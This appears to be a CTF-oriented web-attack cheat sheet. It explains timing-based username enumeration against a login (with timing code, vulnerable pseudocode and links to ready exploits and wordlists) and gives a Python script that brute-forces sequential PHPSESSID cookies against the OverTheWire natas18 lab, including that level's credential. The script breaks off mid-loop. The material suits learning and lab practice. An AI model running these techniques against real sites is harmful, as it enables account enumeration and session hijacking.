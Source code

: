 The next stage is timing this. Using the "time" standard library, we can work out the time difference between when we send the request and when we get a response.&#x20;

```
startTime = time.time()
doLogin(user)
endTime = time.time()
```

The next step is now to repeat this for all usernames in the username list. This can be done with a series of for loops. The first will read usernames from a file into a list, and the second will test each of these usernames and see the time taken to respond. For my exploit, I decided that times within 10% of the largest time were likely to be valid usernames.

**Why does the time taken change?**

The **backend** is intentionally poorly written. The server will only try to verify the password of the user if it receives a correct username. The **pseudocode** to explain this better is below.

{% code fullWidth="true" %}
```php
def login(username, password):
    if username in users: ##If it's a valid username
        login_status = check_password(password) ##This takes a noticeable amount of time
        if login_status:
            return new_session_token()
        else:
            return "Username or password incorrect"
    else:
        return "Username or password incorrect"
```
{% endcode %}

Pre-written exploits in Golang and Python are available here: [https://github.com/NinjaJc01/hackerNoteExploits](https://github.com/NinjaJc01/hackerNoteExploits)

Use the Honeypot capture or Names/names.txt from [https://github.com/danielmiessler/SecLists/tree/master/Usernames](https://github.com/danielmiessler/SecLists/tree/master/Usernames). The shorter the list is, the faster the exploit will complete.

{% hint style="info" %}
The Golang exploit is not reliable but it is faster. If you get invalid usernames, try re-running it after a minute or switching to the python exploit.
{% endhint %}

## Cookies

{% tabs %}
{% tab title="Brute force incremental cookie" %}
```python
#/usr/bin/python3

import requests

url = 'http://natas18.natas.labs.overthewire.org/'

s = requests.Session()
s.auth = ('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')

for x in range(641):
        cookie = dict(PHPSESSID=str(x))   # this is the way to send a cookie
        #cookie = {'PHPSESSID': str(x)}   also valid
        r = s.get(url, cookies=cookie)    # only get is necessary if we already logged in with admin username
        #r = s.post(url, data={'username': 'admin', 'password': 'test'}, cookies=cookie)  another valid way
        if "Login as an admin" in r.text:
                pass
```